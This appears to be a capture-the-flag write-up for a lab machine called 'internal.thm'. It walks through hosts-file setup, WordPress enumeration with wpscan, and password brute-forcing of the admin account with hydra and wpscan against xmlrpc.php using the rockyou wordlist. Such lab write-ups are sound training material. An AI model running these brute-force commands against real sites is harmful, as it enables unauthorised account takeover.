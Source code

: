 Also see: [nikto.log](nikto.log)

### Exploration

There are several interesting parts to this. Note that you do need to modify your HOSTS file to point to this website by name. So, run:

```bash
sudo nano /etc/hosts
```

and then add an entry like (using the actual IP address of your target):

```text
10.10.180.69    internal.thm
```

This makes it so when you reference the name `internal.thm` at the command line or in the browser, it will resolve to that IP address.

Anyhow, we have an exposed phpmyadmin instance and a Wordpress instance. I first googled what the default credentials might be for the phpmyadmin, and `root:<empty>` and `root:password` did not work. We'll get back to that.

#### Running `wpscan`

Since we have a Wordpress site, we can run something like this:

```bash
wpscan --url http://internal.thm/blog/ -e vp,u
```

Where the `-e` is for "enumerate" and `vp` is for Vulnerable Plugins and `u` is for user ID ranges.

Also see: [wpscan.log](wpscan.log)

We find we have a username of `admin`. My first instinct was to run hydra against the web form via:

```bash
hydra -I -l "admin" -P /usr/share/wordlists/rockyou.txt \                                                            
    $TARGET -t 50 http-post-form \
    "/blog/wp-login.php:log=admin^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Finternal.thm%2Fblog%2Fwp-admin%2F&testcookie=1:F=login_error"
```

However, after :15 minutes I got no hits. Actually, I did RE-run this with 50 threads after seeing in the write-up that they used a different technique, and specified 50 threads:

```bash
wpscan --url http://internal.thm/blog/ --usernames admin \
    --passwords /usr/share/wordlists/rockyou.txt --max-threads 50
```

This is notable because this apparently uses the `xmlrpc.php`, which is a web service - as opposed to `/blog/wp-login.php` which is a full-on web page. The web page is going to be significantly slower because it needs to re-render the whole page with each response. In summary:

| Technique:               | Time:                                      |
| ------------------------ | ------------------------------------------ |
| Hydra against a web form | :15+ minutes (did not finish/did not find) |
| WPScan against xmlrpc    | :02 minutes, :43 seconds                   |
